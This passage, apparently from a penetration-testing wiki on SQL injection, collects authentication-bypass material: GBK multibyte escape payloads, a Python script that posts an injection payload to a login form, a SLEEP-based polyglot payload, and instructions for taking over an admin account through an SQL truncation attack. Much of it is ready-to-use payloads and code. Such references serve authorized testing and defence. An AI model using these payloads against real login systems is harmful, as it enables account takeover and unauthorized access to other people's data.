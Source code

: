 {% file src="../../.gitbook/assets/sqli-hashbypass.txt" %}

### GBK Authentication Bypass

IF ' is being scaped you can use %A8%27, and when ' gets scaped it will be created: 0xA80x5c0x27 \(_╘'_\)

```text
%A8%27 OR 1=1;-- 2
%8C%A8%27 OR 1=1-- 2
%bf' or 1=1 -- --
```

Python script:

```python
import requests
url = "http://example.com/index.php" 
cookies = dict(PHPSESSID='4j37giooed20ibi12f3dqjfbkp3') 
datas = {"login": chr(0xbf) + chr(0x27) + "OR 1=1 #", "password":"test"} 
r = requests.post(url, data = datas, cookies=cookies, headers={'referrer':url}) 
print r.text
```

### Polyglot injection \(multicontext\)

```text
SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/
```

## Insert Statement

### Modify password of existing object/user

To do so you should try to **create a new object named as the "master object"** \(probably **admin** in case of users\) modifying something:

* Create user named: **AdMIn** \(uppercase & lowercase letters\)
* Create a user named: **admin=**
* **SQL Truncation Attack** \(when there is some kind of **length limit** in the username or email\) --&gt; Create user with name: **admin          \[a lot of spaces\]           a**

#### SQL Truncation Attack

If the database is vulnerable and the max number of chars for username is for example 30 and you want to impersonate the user **admin**, try to create a username called: "_admin \[30 spaces\] a_" and any password.

The database will **check** if the introduced **username** **exists** inside the database. If **not**, it will **cut** the **username** to the **max allowed number of characters** \(in this case to: "_admin \[25 spaces\]_"\) and the it will **automatically remove all the spaces at the end updating** inside the database the user "**admin**" with the **new password** \(some error could appear but it doesn't means that this hasn't worked\).

More info: [https://blog.lucideus.com/2018/03/sql-truncation-attack-2018-lucideus.html](https://blog.lucideus.com/2018/03/sql-truncation-attack-2018-lucideus.html) & [https://resources.infosecinstitute.com/sql-truncation-attack/\#gref](https://resources.infosecinstitute.com/sql-truncation-attack/#gref)
